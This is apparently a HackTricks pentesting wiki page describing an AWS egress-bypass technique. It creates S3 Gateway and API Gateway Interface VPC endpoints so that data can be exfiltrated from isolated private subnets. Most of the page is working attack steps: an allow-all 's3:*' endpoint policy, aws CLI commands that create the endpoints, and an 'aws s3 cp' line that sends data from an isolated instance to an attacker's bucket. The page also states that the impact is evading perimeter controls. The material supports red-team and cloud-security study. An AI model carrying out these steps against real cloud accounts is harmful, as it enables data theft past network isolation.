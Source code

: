 # AWS – Egress Bypass from Isolated Subnets via VPC Endpoints

{{#include ../../../../banners/hacktricks-training.md}}

## Summary

This technique abuses VPC Endpoints to create exfiltration channels from subnets without Internet Gateways or NAT. Gateway endpoints (e.g., S3) add prefix‑list routes into the subnet route tables; Interface endpoints (e.g., execute-api, secretsmanager, ssm, etc.) create reachable ENIs with private IPs protected by security groups. With minimal VPC/EC2 permissions, an attacker can enable controlled egress that doesn’t traverse the public Internet.

> Prereqs: existing VPC and private subnets (no IGW/NAT). You’ll need permissions to create VPC endpoints and, for Option B, a security group to attach to the endpoint ENIs.

## Option A – S3 Gateway VPC Endpoint

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Create a permissive endpoint policy file (optional). Save as `allow-put-get-any-s3.json`:

```json
{
  "Version": "2012-10-17",
  "Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```

2) Create the S3 Gateway endpoint (adds S3 prefix‑list route to the selected route tables):

```bash
aws ec2 create-vpc-endpoint \
  --vpc-id $VPC_ID \
  --service-name com.amazonaws.$REGION.s3 \
  --vpc-endpoint-type Gateway \
  --route-table-ids $RTB_IDS \
  --policy-document file://allow-put-get-any-s3.json   # optional
```

Evidence to capture:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` shows a route to the AWS S3 prefix list (e.g., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- From an instance in those subnets (with IAM perms) you can exfil via S3 without Internet:

```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```

## Option B – Interface VPC Endpoint for API Gateway (execute-api)

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) Create the interface endpoint and attach the SG:

```bash
aws ec2 create-vpc-endpoint \
  --vpc-id $VPC_ID \
  --service-name com.amazonaws.$REGION.execute-api \
  --vpc-endpoint-type Interface \
  --subnet-ids $SUBNET_IDS \
  --security-group-ids $SG_VPCE \
  --private-dns-enabled
```

Evidence to capture:
- `aws ec2 describe-vpc-endpoints` shows the endpoint in `available` state with `NetworkInterfaceIds` (ENIs in your subnets).
- Instances in those subnets can reach Private API Gateway endpoints through those VPCE ENIs (no Internet path required).

## Impact
- Bypasses perimeter egress controls by leveraging AWS‑managed private paths to AWS services.
- Enables data exfiltration from isolated subnets (e.g., writing to S3; calling Private API Gateway; reaching Secrets Manager/SSM/STS, etc.) without IGW/NAT.

{{#include ../../../../banners/hacktricks-training.md}}
